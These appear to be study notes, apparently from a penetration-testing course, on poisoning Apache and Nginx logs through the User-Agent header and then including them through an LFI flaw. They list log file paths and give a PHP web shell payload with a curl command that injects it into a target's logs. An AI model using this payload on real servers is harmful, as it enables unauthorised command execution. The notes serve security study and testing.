


Web Server Log Poisoning
Server Log Poisoning
1. Poison Web Server Log through an input that we can control
Apache and Nginx maintain log files:
◇ access.log → contains various information about all requests made to the server, including headers
▪ User-Agent header → is usually an header that we can control and with we can poison the server
◇ error.log

Note: all requests to the server get logged, we can poison any request to the web application
2. include the logs through LFI vulnerability
Note: Logs tend to be huge, and loading them in an LFI vulnerability may take a while to load, or even crash the server in worst-case scenarios. So, be careful and efficient with them in a production environment, and don't send unnecessary requests.
◇ Nginx logs are readable by low privileged users by default (e.g. www-data)
▪ Linux: /var/log/nginx/
▪ Windows: C:\nginx\log\
◇ Apache logs are only readable by users with high privileges (e.g. root/adm groups)
In older or misconfigured Apache servers, these logs may be readable by low-privileged users.
▪ Linux: /var/log/apache2/
▪ Windows: C:\xampp\apache\logs\
◇ /proc/ directory logs User-Agent header is also shown on process files under the Linux /proc/ directory (these files may only be readable by privileged users)
▪ /proc/self/environ
▪ /proc/self/fd/N → where N is a PID usually between 0-50
------------
3. Poison of the logs with a Web Shell (similar to point 1)
User-Agent: <?php system($_GET['cmd']); ?>
curl -s "http://134.209.186.36:31721/index.php" -A '<?php system($_GET["cmd"]); ?>'

4. Access to the logs, the webshell ( <?php system($_GET['cmd']); ?>) is not viewed because got executed
execution of commands
